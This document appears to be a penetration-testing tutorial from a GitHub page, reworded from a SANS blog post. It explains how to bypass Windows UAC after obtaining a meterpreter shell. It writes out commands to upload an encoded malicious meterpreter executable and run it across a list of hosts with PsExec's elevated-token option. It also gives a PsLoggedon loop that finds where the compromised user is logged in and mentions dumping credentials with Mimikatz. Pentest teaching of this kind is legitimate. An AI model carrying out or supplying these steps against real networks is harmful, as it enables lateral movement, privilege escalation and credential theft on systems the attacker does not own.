 # UAC Bypassing

### PsExec.exe method

For this example, lets just assume that you have gotten a meterpreter shell on a box. For the purposes of this demonstration, this box will be called Box0. Box0 is not a very kind soul though, and as thus although you have an admin shell on it, the UAC is preventing you from dumping the hashes of the system. You would like to upgrade this shell, but alas, the box is running Windows Vista with UAC, which is getting in the way of you escalating your privileges. Furthermore, the box appears to be patched and up to date, so you can't take advantage of any local OS or application exploits to gain privileges. So what can we do?

For starters we can turn to PsExec. PsExec will allow us to run commands against a remote machine, and comes with a handly little option, -h.

```
 -h   If the target system is Vista or higher, has the process
	  run with the account's elevated token, if available.
```

Seems handy for what were planning to do. Before we dive in though, I want to quickly note that the way UAC works for an admin user is that there is a normal token that is used for everyday activities and then there is a elevated privileges token that is used for special activities. This is why although we can't dump the hashes just yet, we have the normal admin token, but not the elevated one we need. Keep in mind that various boxes thoughtout the network may have either of these tokens, but only the elevated one will grant the privileges that we want, allowing us to do hash dumping and other fun stuff :)

Continuing on, the first step that we want to do is upload a copy of PsExec.exe and an encoded copy of a malicious meterepreter exe (see the Veil project for details on how to do this) up to the server. To do this, we could do:

```
upload *path to meterpreter exe* \\users\\*target user here*\\metpr.exe
upload *path to PsExec.exe* \\users\\*target user here*\\PsExec.exe
```

The next step to do is to gather a list of target IP addresses that you would like to try using your exploited user's authentication credentials against. Once you have done this, save it to a file (targets.txt in our example) and upload it to Box0. 

```
upload *path to targets.txt* \\users\\*target user here*\\targets.txt
```

We then can run PsExec.exe as follows:

```
PsExec.exe @targets.txt -accepteula -c -f -h -d metr.exe
```

I'll breifly explain the options. "-accepteula" sets the appropriate flag in the registry to make sure that the EULA agreement notification does not randomly pop up on the exploited user's machine. "-c" makes sure that we copy our meterpreter exe (metpr.exe) across to any system where the credentials work, whilst "-f" makes sure we overwrite the file if it already exists. "-h" is the important option here, which will run the meterpreter payload on any machine where the credentials works with the elevated token if the account on that machine has a elevated token attached to it (see PsExec output above). Finally, "-d" will make sure we don't wait for termination (run in background).

Now provided this command runs and we end up uploading and executing the meterpreter payload on a target in our targets.txt file that has admin rights, 2 things will happen. First off, we will not need to worry about credentials as if the user we are authenticating to on the remote machine is an admin (aka the user we compromised is admin on the remote machine), then the credentials for our compromized user will automatically be passed on to the remote machine, thus giving us access to the admin user on that machine without us needing to know the password. Secondly, if the user that we compromised is an admin on this machine, when the meterpreter exe executes, it will bypass the UAC, running instead as the priviledged admin user (it will use the elevated privileges token tied to that account). At this point, we now have a elevated shell on the second box, which we shall call Box1 for the rest of this document (this is after we do a getsystem on Box1 to elevate our privileges (which we can now do as we have the elevated privileges token we didn't have before)). 

We do have a slight problem though. Due to something called the double hop issue (http://support.microsoft.com/default.aspx?scid=kb;en-us;329986) we can't actually use the elevated privileges on Box1 to pass on the elevated privileges to Box0. This is because you can't pass resources more than 1 hop. In our example the first hop is from Box0 to Box1, and the second hop is Box1 to Box0. If we were to try doing this, we would end up trying to authenticate as the NTAUTHORITY\ANONYMOUS user as we would only have the secondary token to Box0, not the primary one (elevated privileges) that we need. The only way we could get around this is if we knew the password for the client on Box0, at which point we could then elevate privileges to the required level. To solve this problem we can use PsLoggedon.exe.


- - - - - -

### PsLoggedon.exe

- - - - - -

We now need to find another host where our user is running with a primary token so that we can escalate privileges on Box0. To do this, we will use PsLoggedon.exe from same PsTools suite that PsExec.exe comes from. Taking the targets.txt file that we created, here is the command to pass through the credentials of our currently compromized user and find out where else he/she is logged in:

```
for /F %i in (targets.txt) do @PsLoggedon.exe \\%i 2>NUL | find "*compromized user's name goes here*" >NUL && echo %i
```

This will list all of the boxes where our user is logged into. We can then target this box with the PsExec.exe method we used in the last example. Once we have a shell on the new host from that, we can then dump the credentials with Mimikatz if we want. This box will also have a primary key that we can then use to elevate our shell on Box0, thereby bypassing UAC.

- - - - - -
### Credits

All credits for the examples and explanation comes from Tim Medin's post which you can find here: http://pen-testing.sans.org/blog/pen-testing/2013/08/08/psexec-uac-bypass
The examples are all his work and I take no ownership for them. This article is mearly a rewording of what he has written in my own (tekwizz123's) words.

